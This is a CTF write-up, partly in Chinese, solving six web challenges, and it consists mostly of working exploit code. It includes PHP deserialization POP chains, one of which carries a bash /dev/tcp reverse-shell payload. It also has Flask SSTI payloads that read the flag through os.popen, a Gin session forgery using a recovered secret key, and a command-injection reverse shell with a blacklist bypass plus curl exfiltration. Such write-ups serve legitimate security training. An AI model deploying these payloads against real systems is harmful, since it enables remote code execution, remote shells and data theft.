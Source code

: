 ### babyPOP

```php
<?php
class b {
    private $i_want_2_listen_2_MaoZhongDu;
    public function __construct($a)
    {
        $this->i_want_2_listen_2_MaoZhongDu = $a;
    }
}

class c {
    public function __wakeup()
    {
        a::$Do_u_like_JiaRan = true;
    }
}

class d {
    public function __invoke()
    {
        a::$Do_u_like_AFKL = true;
        return "关注嘉然," . $this->value;
    }
}

class e {
    public function __destruct()
    {
        if (a::$Do_u_like_JiaRan) {
            ($this->afkl)();
        } else {
            throw new Error("Noooooooooooooooooooooooooooo!!!!!!!!!!!!!!!!");
        }
    }
}

$b = new b('bash -c "bash -i >& /dev/tcp/[vps-ip]/9999 0>&1"');
$c = new c();
$d = new d();
$d->value = $b;
$e = new e();
$e->afkl = $d;
echo urlencode(base64_encode(serialize([$c, $e])));
```

### babyPy
这题是个非常简单的Flask SSTI，没有任何过滤。
```
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}} 
```

### easyGO
在附件的`main.go`中发现密钥硬编码，和静态文件目录设置错误。
```go
package main

import (
	"SYC/geek/route"

	"github.com/gin-contrib/sessions"
	"github.com/gin-contrib/sessions/cookie"
	"github.com/gin-gonic/gin"
)

func main() {
	webapp := gin.Default()
	store := cookie.NewStore([]byte("[I AM NOT GONNA TELL YOU]"))// 硬编码了密钥

	webapp.Use(sessions.Sessions("PHPSESSION", store))
	webapp.Use(gin.Recovery())

	webapp.Static("/static", "./") // 静态文件设置为当前目录，表示我们可能拿到编译出来的二进制文件。

	route.SetRoute(webapp)

	// After executing `go build` in the current directory, AFKL puts the file that was just compiled into the /app folder.
	// 由上面的话可知，编译出来的文件名叫geek
	webapp.Run(":8080")
}
```
而想要拿到flag，需要成为admin。由此可以尝试拿到二进制文件后逆向出密钥，然后session伪造。
```go
app.GET("/flag", func(c *gin.Context) {
	sess := sessions.Default(c)
	user := sess.Get("user").(string)
	if strings.Compare(user, "admin") == 0 {
		data, _ := ioutil.ReadFile("/flag")
		c.JSON(200, gin.H{
			"flag": string(data),
		})
	} else {
		c.JSON(200, gin.H{
			"No!": "U are not admin!",
		})
	}
})
```
在`http://easyGO/static/geek`拿到二进制文件后，逆向得出密钥。
![image-20211119110632343](https://i.loli.net/2021/11/19/Z5LkmJToYOI7qjD.png)

然后session伪造
```go
package main

import (
	"github.com/gin-contrib/sessions"
	"github.com/gin-contrib/sessions/cookie"
	"github.com/gin-gonic/gin"
)

func main() {
	webapp := gin.Default()
	store := cookie.NewStore([]byte("WTF_HOw_d1d_U_kn0W_Th1s"))

	webapp.Use(sessions.Sessions("PHPSESSION", store))
	webapp.Use(gin.Recovery())

	webapp.GET("/", func(c *gin.Context) {
		sess := sessions.Default(c)
		sess.Set("user", "admin")
		sess.Save()
	})

	webapp.Run(":7777")
}
```


### easyPOP

```php
<?php
class a {
    public $test;
    public function __construct($a)
    {
        $this->test = $a;
    }
}

abstract class b {
    private $b = 1;
    public function __construct($a)
    {
        $this->b = $a;
    }
}

class c extends b {
    private $call;
    protected $value;

    public function __construct($a, $b)
    {
        $this->call = $a;
        $this->value = $b;
    }

    public function setB($c) {
        parent::__construct($c);
    }
}

class d {
    public $value;

    public function __construct($a)
    {
        $this->value = $a;

    }
}

$c = new c(
    [new d("system"), "eval"],
    [new d("echo 'wtf'>./233"), "eval"],
);
$c->setB([$c, "eval"]);
$exp = new a($c);

echo base64_encode(serialize($exp));
```


### easyPy
```
http://easypy/calc?calc={{(1=&answer=1)|attr(request.args.class)|attr(request.args.mro)|attr(request.args.getitem)(2)|attr(request.args.subclasses)()|attr(request.args.getitem)(133)|attr(request.args.init)|attr(request.args.globals)|attr(request.args.getitem)(request.args.popen)(request.args.data)|attr(request.args.read)()}}&class=__class__&mro=__mro__&getitem=__getitem__&subclasses=__subclasses__&init=__init__&globals=__globals__&popen=popen&data=cat+/flag&read=read
```

### where_is_my_FUMO
```php
<?php
function chijou_kega_no_junnka($str) {
    $black_list = [">", ";", "|", "{", "}", "/", " "];
    return str_replace($black_list, "", $str);
}

if (isset($_GET['DATA'])) {
    $data = $_GET['DATA'];
    $addr = chijou_kega_no_junnka($data['ADDR']);
    $port = chijou_kega_no_junnka($data['PORT']);
    exec("bash -c \"bash -i < /dev/tcp/$addr/$port\"");
} else {
    highlight_file(__FILE__);
}
```

三个考点：
1. 使用GET请求传输数组
`http://fumo/index.php?DATA[ADDR]=vps-ip&DATA[PORT]=9999`

2. 反弹shell
这里的反弹shell只能反弹回一个没有回显的shell。
解决办法很多，可以考虑二次反弹一个完整的shell，或者绕过黑名单。
`bash -c "bash -i < /dev/tcp/ip/9999 1<&0 2<&0"`

3. 反弹shell后的文件获取
内置环境有`curl`，可以将图片外带到自己的服务器。

![flag](https://i.loli.net/2021/11/19/GEDL6O2QprJwXds.png)
